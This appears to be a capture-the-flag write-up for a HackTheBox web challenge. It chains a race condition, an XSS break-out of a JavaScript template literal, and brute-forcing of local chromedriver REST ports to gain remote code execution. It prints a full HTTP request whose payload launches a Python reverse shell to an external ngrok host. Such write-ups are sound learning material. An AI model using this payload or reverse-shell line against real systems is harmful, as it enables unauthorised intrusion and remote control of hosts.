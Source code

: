 Attack Scenario:

    - Gain internal access via race condition
    - xss injection
    - Gain RCE VIA chromedriver API REST


Please take a moment to read intended way to gain RCE in official writeup
https://github.com/hackthebox/cyber-apocalypse-2024/blob/main/web/%5BInsane%5D%20apexsurvive/official_writeup.md

The intended way to gain RCE is using `UWSGI configuration overwrite RCE`

Well i found another approach to gain the RCE using this approach https://medium.com/@knownsec404team/counter-webdriver-from-bot-to-rce-b5bfb309d148
and some bruteforcing

But we dont need the DNS Rebind because bot will run the exploit in localhost so it will pass the security check
![PID](img/1.png)

Well you can see chromedriver API rest will be start in 5 Digits port

after gaining internal access we can inject javascript

```html
<script>
    let note = `{{ product.note | safe }}`;
    const clean = DOMPurify.sanitize(note, {FORBID_ATTR: ['id', 'style'], USE_PROFILES: {html:true}});
    document.getElementById('note').innerHTML += clean;
</script>
```
dont look the dompurify
we're able to inject **\`;** to close the let note syntax then add whatever we want


we can inject our RCE bruteforcejavascript
```http
POST /challenge/api/addItem HTTP/2
Host: host:1337
Cookie: session=
Content-Length: 663
Content-Type: application/x-www-form-urlencoded

name=asd&price=1&imageURL=1&seller=1&description=1&note=`;%0a        
y = 40000
data = {"capabilities":{"alwaysMatch":{"goog:chromeOptions":{"binary":"/usr/bin/python3","args":["-cimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('0.tcp.ap.ngrok.io',NGROKPORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('sh')"]}}}}
while(y != 60000){
        
        fetch(`http://localhost:${y}/session`, {method:'POST', mode:'no-cors', headers:{'Content-type':'application/json'}, body:JSON.stringify(data)})
y%2B%2B
}
const www = `
&antiCSRFToken=
```

then just report to the Item ID, the bot will visit then start bruteforce port for RCE
after waiting several second, connection is comming


![Alt text](img/2.png)
